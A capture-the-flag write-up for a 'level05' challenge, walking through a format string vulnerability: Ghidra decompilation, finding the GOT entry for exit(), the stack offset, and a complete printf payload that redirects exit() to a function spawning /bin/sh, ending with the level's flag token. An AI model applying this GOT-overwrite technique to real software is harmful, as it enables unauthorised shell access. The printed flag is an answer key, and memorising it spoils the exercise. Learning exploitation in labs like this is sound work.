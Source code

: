 # level05

1. Decompilation with Ghidra

    the binary contains :
    ```c
    void main(void)

    {
    n();
    return;
    }
    ```
    ```c
    void n(void)
    {
    char local_20c [520];
    
    fgets(local_20c,0x200,stdin);
    printf(local_20c);
                        /* WARNING: Subroutine does not return */
    exit(1);
    }
    ```

    ```c
    void o(void)
    {
    system("/bin/sh");
                        /* WARNING: Subroutine does not return */
    _exit(1);
    }
    ```

2. Analysis of the vulnerability

    The vulnerability:
    - The function o() allows invoking /bin/sh.
    - The exit() call.

3. Finding the GOT address to exit() and address to o()

    Using gdb to find the o() address:

    ```bash
    gdb ./level5

    (gdb) info address o
    Symbol "o" is at 0x80484a4 in a file compiled without debugging.
    ```

    But, for exit() we need GOT address (Global Offset Table).

    ```bash
    objdump -R level5
    [...]
    08049838 R_386_JUMP_SLOT   exit
    [...]
    ```

4. Finding the format string offset

    Test to find where our input appears on the stack:

    ```bash
    python -c 'print "AAAA" + "%x."*5' | ./level5

    # Output: AAAA200.b7fd1ac0.b7ff37d0.41414141.252e7825.
    ```

    We see `41414141` (AAAA in hex) at the **4th position**.

6. Exploitation

    Format String Payload Breakdown

    **%2044x = Prints 2044 padding characters**

    - Goal: Reach 2052 in byte counter (2044 + 8 bytes from addresses)

    - 2052 = 0x0804 (high part of o()'s address)

    **%31904x = Prints 31904 padding characters**

    - Goal: Reach 33956 in byte counter (2052 + 31904)

    - 33956 = 0x84a4 (low part of o()'s address)

    **%4\$hn = Writes 2-byte counter to address at offset 4**

    - Offset 4 = 0x0804983a (GOT exit + 2)

    - Writes 0x0804

    **%5\$hn = Writes 2-byte counter to address at offset 5**

    - Offset 5 = 0x08049838 (GOT exit)

    - Writes 0x84a4

    ***Final result: GOT exit contains 0x080484a4 = address of o()***

    ```bash
    (echo -e "\x3a\x98\x04\x08\x38\x98\x04\x08%2044x%4\$hn%31904x%5\$hn"; cat) | ./level5

    whoami
    # Output : level6
    ```

7. Token discovered

    The token is: `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
